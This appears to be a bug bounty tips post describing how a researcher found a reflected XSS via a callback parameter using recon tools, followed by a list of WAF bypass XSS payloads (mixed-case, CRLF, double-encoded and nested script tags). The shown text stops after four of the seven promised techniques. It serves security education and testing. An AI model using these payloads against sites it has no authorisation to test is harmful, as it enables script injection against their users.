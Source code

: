 Here’s an interesting bug bounty write-up leading to a reflected XSS (Cross-Site Scripting by visiting a link).

The author was able to successfully identify and exploit XSS despite the fact that the application was filtering some characters and keywords (possibly protected by WAF).

Here’s what [@\_justYnot](https://twitter.com/_justYnot) did in detail:

1. Run subfinder -d target.com | httprobe -c 100 > target.txt
2. Run cat target.txt | waybackurls | gf xss | kxss
3. Got a URL which had all the special characters unfiltered and the parameter was callback=
4. Tried some basic XSS payloads but they weren’t working, the site was filtering some keywords in the payload (like script and alert)
5. Then he referred to the [@PortSwigger](https://twitter.com/PortSwigger) XSS cheat sheet ([link](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet))
6. After trying some payloads, one payload with event as onbegin worked and XSS executed successfully!
7. Made a good report, sent it to the company last month and got rewarded \$$

This is a perfect example why we should never give up when things get difficult. When you’ve got a lead, you have to keep pushing to get the reward! Here’s list of tools [@\_justYnot](https://twitter.com/_justYnot) used:

* https://github.com/projectdiscovery/subfinder
* https://github.com/tomnomnom/httprobe
* https://github.com/tomnomnom/waybackurls
* https://github.com/tomnomnom/gf
* https://github.com/1ndianl33t/Gf-Patterns (xss pattern)
* https://github.com/tomnomnom/hacks/tree/master/kxss

#### XSS firewall bypass techniques

Here’s a list of 7 useful techniques on how we can bypass WAF (Web Application Firewall) while exploiting XSS (Cross-Site Scripting) in a web application:

1. Check if the firewall is blocking only lowercase:

```
<sCRipT>alert(1)</sCRiPt>
```

2. Try to break firewall regex with new line (\r\n), aka. CRLF injection:

```
<script>%0d%0aalert(1)</script>
```

3. Try double encoding:

```
%2522
```

4. Testing for recursive filters, if firewall removes the text in bold, we will have clear payload:

```
<scr<script>ipt>alert(1);</scr</script>ipt>
```
